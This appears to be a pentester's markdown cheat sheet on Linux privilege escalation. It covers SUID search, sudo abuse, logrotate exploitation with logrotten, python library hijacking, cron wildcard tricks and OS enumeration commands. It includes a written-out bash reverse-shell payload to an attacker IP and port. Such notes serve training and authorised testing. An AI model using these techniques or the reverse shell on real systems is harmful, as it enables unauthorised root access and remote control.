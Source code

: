 Linux_Privesc

## Process working on the machine to check

- Monitor process : ```pspy```

## SUID

- gtfobins

## Ways to escalate

- Using SUID to become root : https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

- Use LinuxPrivChecker or LinEnum, or https://github.com/pentestmonkey/unix-privesc-check or linux smart enumeration.

- Search file in the home directory

- Find the file with suid : ```find / -perm -u=s -type f 2>/dev/null```


- ```sudo -l``` to find what can be used with that user as a root !!!!
You have the application, and where you have to use if you want to do it without password pay attention !!!! If it's a particular user, do : ```sudo -u <user> <command>```


- logrotate : if it's executed by the root user with a crontask, and you have control on a log file, use logrotten : add lot of things inside log file, check if the size after the logrotate command has changed. If it's okay :  bash -c "bash -i >& /dev/tcp/10.10.14.12/1234 0>&1" in a file (payload for example). Then ./logrotten -p payload \<path to the log file which is rotate\>. Then write data inside the log file : echo "blabla" > \<log file\>

- python library hijacking : https://rastating.github.io/privilege-escalation-via-python-library-hijacking/
https://0xdf.gitlab.io/2019/07/13/htb-friendzone.html

- Wildcards used in cron jobs ? Use it to your advantage ! **https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/**

- Any interpreter with Right of other user ? try to execute bash command. (/bin/bash)

---

## What's the distribution type? What version? :

```
- cat /etc/issue 
- cat /etc/*-release   
- cat /etc/lsb-release
- cat /etc/redhat-release
```
---

## What's the kernel version? Is it 64-bit?
